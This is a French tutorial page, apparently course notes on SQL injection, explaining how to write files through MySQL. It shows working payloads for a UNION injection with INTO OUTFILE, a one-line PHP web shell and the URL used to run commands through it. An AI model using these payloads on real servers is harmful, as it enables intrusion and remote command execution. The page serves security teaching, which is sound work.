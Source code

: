 ```yaml
---
title:  "Écriture de Fichiers"
category: "Exploitation"
tag: "Principes de base de l'injection SQL"
---
```

Concernant l'écriture de fichiers dans un serveur back-end, cela devient beaucoup plus complexe que l'écriture dans les SGBD modernes

# Privilèges d'écriture sur les fichiers

Pour écrire des fichiers dans un serveur en utilisant une base de données, on a besoin :
- D'être un utilisateur avec le privilège **FILE**.
- Que la variable globale **secure_file_priv** de MySQL ne soit pas activée.
- Des droits d'écriture sur la localisation où nous voulons écrire sur le serveur.

On a vu dans la section "Lecture de Fichiers" la manière d'identifier si nous avons le droit **FILE**. Nous allons voir maintenant comment inspecter les droits d'écriture de la BDD MySQL, en regardant la variable globale **secure_file_priv**.

### secure_file_priv

Cette variable est utilisée pour déterminer où lire/écrire les fichiers.
On retrouve plusieurs droits en fonction de sa valeur :
- si elle est vide : on peut lire les fichiers depuis l'intégralité du système de fichiers
- valeur à **NULL** : on ne peut pas lire/écrire à partir d'un répertoire.
- Si un certain répertoire est défini, nous ne pouvons lire que dans le répertoire spécifié par la variable.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';  # voir la variable avec MySQL
```

Dans **INFORMATION_SCHEMA** :

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

# SELECT INTO OUTFILE

L'instruction **SELECT INTO OUTFILE** permet d'écrire des données provenant d'instructions SELECT dans des fichiers, principalement utilisée pour exporter des données de tables.

Pour l'utiliser, on ajoute **INTO OUTFILE '...'** après la requête pour exporter le résultat dans le fichier spécifié (voir exemple).

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

On peut également faire des **SELECT** sur des strings dans des fichiers pour écrire des fichiers arbitraires dans les serveurs.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

# Écriture de fichiers par injection SQL (webshell)

Nous allons prendre un exemple d'écriture d'un fichier texte dans un **webroot** (dossier web de base pour un serveur web).
Liste de webroot pour [linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) et [windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt).

Dans l'exemple précédent, on récupère notre injection **union** avec le webroot /var/www/html

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

On ne voit plus l'affichage dans le site web mais bien dans le fichier.
> Remarque : Pour éviter d'avoir du contenu non nécessaire dans le fichier tout en ayant la possibilité de faire la requête UNION, on peut utiliser "" à la place des chiffres.

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA6.png" alt="Alt text"></center>

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA7.png" alt="Alt text"></center>

## Écriture de Web Shell

Une fois qu'on a la confirmation de l'écriture de nos droits d'écriture de fichiers, on peut écrire un script web PHP dans le webroot. Par exemple, le suivant :

```php
<?php system($_REQUEST[0]); ?>
```

Dans notre cas ça donne :

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Et on utilise nos commandes de la manière suivante :

```html
www.website.com/script.php?0=myCommand
```